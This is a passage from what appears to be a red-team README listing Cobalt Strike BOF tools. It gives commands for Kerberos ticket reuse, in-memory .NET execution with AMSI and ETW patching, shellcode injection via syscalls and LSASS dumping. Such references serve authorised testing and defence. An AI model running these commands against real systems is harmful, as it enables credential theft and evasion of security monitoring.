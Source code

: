 [+] Invoking tgtParse.py to obtain a usable .ccache!

[+] Successfully decrypted the AP-REQ response!

[+] Local path to usable .ccache: /home/loki@MARVEL.LOCAL.ccache
[+] Local path to usable .kirbi: /home/loki@MARVEL.LOCAL.kirbi
```
Now use .ccache or .kirbi files offline on a Linux system to load TGT into memory: <br />
```export KRB5CCNAME=/home/loki@MARVEL.LOCAL.ccache``` <br />
Continue to use ticket in memory with other tooling of your choice through SOCKS proxy! (i.e. Impacket's `-k -no-pass` command) <br />


- [**PrivKit**](https://github.com/mertdas/PrivKit)<br />
Windows privilege escalation BOF kit used for detecting priv esc vulnerabilities including unquoted service paths, hijackable paths, autologon registry keys, etc.<br />
Check for all vulnerabilities supported: <br />
```privcheck```

---
### Executing .NET Assemblies

- [**InlineExecute-Assembly**](https://github.com/anthemtotheego/InlineExecute-Assembly)<br />
Perform .NET assembly execution of any .NET executable without any prior modifications required<br />
The BOF also supports several flags to disabling AMSI via in memory patching, disabling and restoring ETW via in memory patching, or customization of the CLR App Domain name to be created<br />
```inlineExecute-Assembly --dotnetassembly /home/Seatbelt.exe --assemblyargs AntiVirus AppLocker --etw --amsi --mailslot totallyLegitMailslot```

- [**inject-assembly**](https://github.com/kyleavery/inject-assembly)<br />
Another alternative .NET executable loader to inject an assembly into a running process<br />
```inject-assembly 0 /home/Rubeus.exe [args...]```

- [**BOF.NET**](https://github.com/CCob/BOF.NET)<br />
Critical tool for red teams that allows you to run .NET assemblies as BOFs within the beacon process<br />
```
bofnet_init --> Start BOF.NET
bofnet_listassemblies --> List loaded .NET assemblies
bofnet_load /Path/To/Assembly.exe --> Load assembly
bofnet_execute bof_name [args] --> Execute assembly
bofnet_shutdown --> Kill BOF.NET
```

- [**Modified BOF.NET**](https://github.com/williamknows/BOF.NET/tree/main)<br />
Updated BOF.NET repo with the added `bofnet_executeassembly` command to easily call .NET assemblies<br />
```
bofnet_init --> Start BOF.NET
bofnet_load /Path/To/Assembly.exe --> Load assembly
bofnet_executeassembly AssemblyName arg1 arg2 arg3 --> Execute .NET assembly
bofnet_executeassembly Seatbelt -group=remote --> SeatBelt execution example
bofnet_shutdown --> Kill BOF.NET
```

---
### Exploitation

- [**ajpc500 BOFs**](https://github.com/ajpc500/BOFs)<br />
A collection of **very** useful BOFs for various utilities including different techniques of shellcode injection with syscalls, process dumping (LSASS!), and patching ETW for better evasion.<br />
```
etw stop --> Patch etw
syscalls_inject <PID> <listener_name> / syscalls_shinject <PID> <path_to_bin> --> Syscalls shellcode injection
syscalls_spawn <listener> / syscalls_shspawn <path_to_bin> --> Spawn and syscalls injections